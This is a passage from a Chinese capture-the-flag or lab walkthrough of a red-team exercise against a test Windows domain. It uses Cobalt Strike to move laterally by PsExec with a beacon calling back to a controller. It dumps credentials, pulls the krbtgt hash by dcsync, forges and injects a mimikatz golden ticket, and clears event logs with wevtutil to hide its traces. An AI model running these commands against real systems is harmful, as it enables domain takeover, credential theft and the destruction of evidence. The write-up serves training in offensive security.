2. **域控是 OWA**（登录服务器确认）
3. 有 NTLM Hash，可以用于 **Pass-the-Hash** 攻击

### 横向移动到域控

利用抓取的凭据，通过 **PsExec** 横向移动到 `192.168.52.138`（OWA 域控）。

在 CS 中执行：

```text
[07/22 02:13:25] beacon> jump psexec 192.168.52.138 win7
[07/22 02:13:26] [*] Tasked beacon to run windows/beacon_http/reverse_http (10.10.10.10:4444) on 192.168.52.138 via Service Control Manager (\\192.168.52.138\ADMIN$\6d6c11e.exe)
[07/22 02:13:26] [+] host called home, sent: 294174 bytes
```

但是没有出现域控主机

没关系

#### 创建 SMB Beacon 并横向移动

问题是

jump psexec 192.168.52.138 win7 使用了 HTTP Beacon，但域控在内网，无法直接访问外网的 `10.10.10.10:4444`。

HTTP Beacon 需要目标能直接连接 Teamserver，而 SMB Beacon 通过命名管道在已有 Beacon 上通信，不需要域控出网。

新建一块监听器，



在 STU1 的 Beacon 中执行

jump psexec 192.168.52.138 smb

```text
[07/22 02:21:48] beacon> jump psexec 192.168.52.138 smb
[07/22 02:21:48] [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_14) on 192.168.52.138 via Service Control Manager (\\192.168.52.138\ADMIN$\7338317.exe)
[07/22 02:21:48] [+] host called home, sent: 294227 bytes
[07/22 02:21:51] [+] received output:
Started service 7338317 on 192.168.52.138
[07/22 02:21:51] [+] established link to child beacon: 192.168.52.138
```

事件日志 多了一行

```text
07/22 02:21:51 *** initial beacon from SYSTEM *@192.168.52.138 (OWA)
```

#### 成功上线域控 OWA，权限：SYSTEM

结果：

- 主机：OWA (192.168.52.138)
- 权限：NT AUTHORITY\SYSTEM

#### 域控权限获取

| 项目         | STU1 (Win7)       | OWA (域控)                    |
| :----------- | :---------------- | :---------------------------- |
| **外网IP**   | `10.10.10.133`    | `169.254.129.186`（显示问题） |
| **内网IP**   | `169.254.129.186` | `192.168.52.138` ✅           |
| **用户**     | `Administrator *` | `SYSTEM *` ✅                 |
| **计算机名** | `STU1`            | `OWA` ✅                      |
| **进程**     | `artifact.exe`    | `rundll32.exe`                |
| **PID**      | `3428`            | `2440`                        |
| **权限**     | 域管理员          | **SYSTEM** ✅                 |
| **Parent**   | -                 | `3428`（STU1 的 PID）         |

### 抓取 krbtgt Hash 制作黄金票据

#### 在 OWA 的 Beacon 中执行

```text
sleep 0
logonpasswords
```

对获取的信息进行分析

抓取到的是：

- `liukaifeng01`（域用户，密码 `hongrisec@2026`）
- `OWA$`（机器账户）
- `IUSR`、`LOCAL SERVICE`（系统账户）
  缺少 `krbtgt` 账户，这是制作黄金票据必需的。

继续执行

```text
dcsync GOD.ORG krbtgt
```

对输出再次分析

| 项目            | 值                                                                 |
| :-------------- | :----------------------------------------------------------------- |
| **用户名**      | krbtgt                                                             |
| **域名**        | GOD.ORG                                                            |
| **DC 服务器**   | owa.god.org                                                        |
| **Object SID**  | S-1-5-21-2952760202-1353902439-2381784089-502                      |
| **NTLM Hash**   | `58e91a5ac358d86513ab224312314061`                                 |
| **LM Hash**     | `a151f0fbafab56da67864278a60a75e8`                                 |
| **aes256_hmac** | `a780c2c18b3287e3448562a36dccb2d57d11fd398b55ce2cd9b128308cef74df` |
| **aes128_hmac** | `2e35721544960f553afcba54252d7b13`                                 |

#### 制作黄金票据

```text
mimikatz kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /krbtgt:58e91a5ac358d86513ab224312314061 /user:Administrator /ptt
```

```text
User      : Administrator
Domain    : god.org (GOD)
SID       : S-1-5-21-2952760202-1353902439-2381784089
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 58e91a5ac358d86513ab224312314061 - rc4_hmac_nt
Lifetime  : 2026/7/22 2:38:07 ; 2036/7/19 2:38:07 ; 2036/7/19 2:38:07
-> Ticket : golden.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

对票据进行分析

| 项目           | 值                                        |
| :------------- | :---------------------------------------- |
| **用户**       | Administrator                             |
| **域名**       | god.org (GOD)                             |
| **SID**        | S-1-5-21-2952760202-1353902439-2381784089 |
| **User ID**    | 500（域管理员 RID）                       |
| **Groups ID**  | 513 512 520 518 519（域管理员组）         |
| **ServiceKey** | 58e91a5ac358d86513ab224312314061          |
| **有效期**     | 2026/7/22 → 2036/7/19（10年）             |
| **票据文件**   | golden.kirbi                              |
| **状态**       | ✅ Final Ticket Saved to file             |

## 使用黄金票据横向移动

### 先注入票据到内存

```text
mimikatz kerberos::ptt golden.kirbi
```

注入成功

### 然后横向移动到最后一台机器

```text
jump psexec 192.168.52.141 smb
```

established link to child beacon: 192.168.52.141 连接成功

```text
[07/22 02:46:50] [+] established link to parent beacon: 192.168.52.138
[07/22 02:48:34] beacon> sleep 0
[07/22 02:48:34] [*] Tasked beacon to become interactive [change made to: Beacon 169.254.129.186@3428]
[07/22 02:48:49] beacon> getuid
[07/22 02:48:49] [*] Tasked beacon to get userid
[07/22 02:48:49] [+] host called home, sent: 8 bytes
[07/22 02:48:49] [*] You are NT AUTHORITY\SYSTEM (admin)
```

三台主机均上线了

| 主机                         | IP                            | 权限              |
| :--------------------------- | :---------------------------- | :---------------- |
| **STU1** (Win7)              | 10.10.10.133 / 192.168.52.143 | GOD\Administrator |
| **OWA** (域控)               | 192.168.52.138                | SYSTEM            |
| **ROOT-TVI862UBEH** (域成员) | 192.168.52.141                | SYSTEM            |

## 痕迹清除

渗透完成，黄金票据也拿到了，该清除痕迹了

1. 清除上传的木马

在蚁剑中删除log.php

2. 清除日志

在每个机器的终端执行以下操作

```text
shell wevtutil cl System
shell wevtutil cl Security
shell wevtutil cl Application
shell wevtutil cl Setup
```

然后再删去.exe可执行文件

```text
[07/22 03:00:29] beacon> shell taskkill /f /im artifact.exe && del /f /q C:\phpStudy\WWW\artifact.exe
[07/22 03:00:29] [*] Tasked beacon to run: taskkill /f /im artifact.exe && del /f /q C:\phpStudy\WWW\artifact.exe
[07/22 03:00:29] [+] host called home, sent: 161 bytes
```
